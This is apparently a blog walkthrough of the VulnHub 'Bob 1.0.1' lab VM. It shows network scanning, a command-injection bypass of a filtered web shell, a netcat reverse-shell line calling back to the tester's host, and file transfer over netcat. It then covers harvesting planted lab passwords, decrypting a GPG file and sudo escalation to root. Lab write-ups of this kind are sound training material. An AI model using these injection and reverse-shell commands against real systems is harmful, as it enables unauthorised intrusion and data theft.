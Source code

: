```yaml
---
layout: post
title: VulnHub - Bob 1.0.1
---
```


**Description:** The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian.

**Author:** c0rruptedb1t

**Operating System:** Linux

**Aim:** To get the flag in /.

**Download:** [https://www.vulnhub.com/entry/bob-101,226/](https://www.vulnhub.com/entry/bob-101,226/)

## Information Gathering
### Host Discovery

I proceeded to detect the target host on the local network.

```bash
root@kali:~$ netdiscover -i vmnet1 -r 192.168.179.1/24          
 Currently scanning: Finished!   |   Screen View: Unique Hosts           
                                                                  
 4 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 222        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.179.153 00:0c:29:0e:b0:d2      3     180  VMware, Inc.         
 192.168.179.254 00:50:56:e0:d4:3f      1      42  VMware, Inc.
```

### Port Scanning

I did a full TCP port scan with nmap to discover available ports.

```bash
root@kali:~$ nmap -p- -v -T5 192.168.179.153 -oG nmap/all-tcp-ports.txt
...
PORT      STATE SERVICE
80/tcp    open  http
25468/tcp open  unknown
```

### Service Enumeration

Then I discovered the version of the services, OS detection , script scanning and traceroute on the target.

```bash
root@kali:~$ nmap -n -v -A -p80,25468 192.168.179.153 -oN nmap/service-enum.txt
...
PORT      STATE SERVICE VERSION                                      
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))           
| http-methods:                                                          
|_  Supported Methods: OPTIONS HEAD GET POST                       
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
```


### Web Enumeration

Interacting with the web service I discovered a web site under construction.

![](/assets/images/bob1/screenshot-1.png)

If we notice in the nmap scan the robots.txt file was found which contains some web files especially one called **dev_shell.php** that looks interesting.

![](/assets/images/bob1/screenshot-2.png)

As we see this allows us executing some system commands but the cat command is not allowed, whit the following command I listed the sorce code of the dev_shell.php file.

```bash
more dev_shell.php
```

![](/assets/images/bob1/screenshot-3.png)

![](/assets/images/bob1/screenshot-4.png)

Analyzing the source code we see an array of commands not allowed, then the strpos() function returns a message if exists a semicolon in the string, if not the explode() function breaks the string into an array, then into the if statement checks only the first position of the array for bad commands, these restrictions allow the attacker execute system commands.

## Exploitation
### Command Injection

First we need set up a netcat listener, then execute the following netcat command to get a reverse shell.

```bash
whoami&&nc 192.168.179.1 443 -e /bin/bash
```
![](/assets/images/bob1/screenshot-5.png)

Then I update it for a full TTY shell.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.153] 32884
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
script -qc /bin/bash /dev/null
www-data@Milburg-High:/var/www/html$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

www-data@Milburg-High:/var/www/html$ export TERM=xterm-256color
www-data@Milburg-High:/var/www/html$ export SHELL=/bin/bash
www-data@Milburg-High:/var/www/html$ stty rows 39 columns 164
```

In elliot's home directory I found a file with contains his password **theadminisdumb** and that of james **Qwerty**.

```bash
www-data@Milburg-High:/home/elliot$ cat theadminisdumb.txt 
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

In bob's home directory, in hidden file, I found the password for users jc and seb.

```bash
www-data@Milburg-High:/home/bob$ cat .old_passwordfile.html 

<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

In bob's Documents directory I found three resources.

```bash
www-data@Milburg-High:/home/bob/Documents$ ls
Secret  login.txt.gpg  staff.txt
```

Then I Transfer the login.txt.gpg file to the attacking machine which looks interesting.

```bash
www-data@Milburg-High:/home/bob/Documents$ nc -vlnp 8080 < login.txt.gpg 
listening on [any] 8080 ...
connect to [192.168.179.153] from (UNKNOWN) [192.168.179.1] 59366


root@kali:~$ nc 192.168.179.153 8080 > login.txt.gpg
```

Inside the secret directory I found a script with notes, as we can see, the first letters vertically say **HARPOCRATES**, this looks like a potential password.

```bash
www-data@Milburg-High:/home/bob/Documents$ cat Secret/Keep_Out/Not_Porn/No_Lookie_In_Here/notes.sh 
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```

Then I decrypted the login.txt.gpg file with the password: **HARPOCRATES**.

```bash
root@kali:~$ gpg --passphrase HARPOCRATES --decrypt login.txt.gpg
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
```

Now we have the bob's password, I switch to the user Bob, this belongs to the sudoers group so he's allowed to execute any command as root.

```bash
bob@Milburg-High:~/Documents$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob),27(sudo)
bob@Milburg-High:~/Documents$ sudo -l
sudo: unable to resolve host Milburg-High: Connection timed out
[sudo] password for bob: 
Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
```

## Privilege Escalation
### Sudo Permissions

To get root we simply execute the su command as sudo, to read the flag the cat binary isn't working, so I used the more command.

```bash
bob@Milburg-High:~/Documents$ sudo su -
sudo: unable to resolve host Milburg-High: Connection timed out
root@Milburg-High:~# whoami
root
root@Milburg-High:~# cat /flag.txt 
hey n there /flag.txt
root@Milburg-High:~# more /flag.txt 
CONGRATS ON GAINING ROOT

        .-.
       (   )
        |~|       _.--._
        |~|~:'--~'      |
        | | :   #root   |
        | | :     _.--._|
        |~|~`'--~'
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
   _____|_|_________ Thanks for playing ~c0rruptedb1t
```
